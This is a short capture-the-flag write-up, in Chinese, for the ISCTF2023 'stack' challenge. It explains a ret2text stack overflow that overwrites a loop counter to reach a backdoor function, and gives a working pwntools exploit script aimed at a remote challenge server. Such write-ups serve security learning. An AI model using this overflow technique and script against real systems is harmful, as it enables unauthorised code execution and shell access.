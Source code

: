 ```yaml
---
title: isctf2023 - stack
date: 2023/12/1 12:00:00
tags:
    - noob
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO off  
ghidra分析为64位程序

## 解题思路

最简单的ret2text，程序中存在后门函数，栈溢出空间自定，
只要注意xmm寄存器要求的栈平衡

还有一点是这道题中迭代器`i`在buf之上，在覆写时会覆盖到，
可以借机将其覆写为0x27，跳至栈上返回地址处

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./stack')
    else:
        sh = remote('43.249.195.138', 21935)
    if lo & 0b10:
        gdb.attach(sh)
    sh.sendline(b'1600') # read size
    retAddr = 0x4012e5
    backdoor = 0x4012e6

    # payload, when reading '\x27' modifies the counter, skip to retAddr
    sh.sendline(b'0'*28 + b'\x27' + p64(retAddr) + p64(backdoor)) # add a ret to keep rsp balance
    sh.interactive()

payload(0)
```

Done.

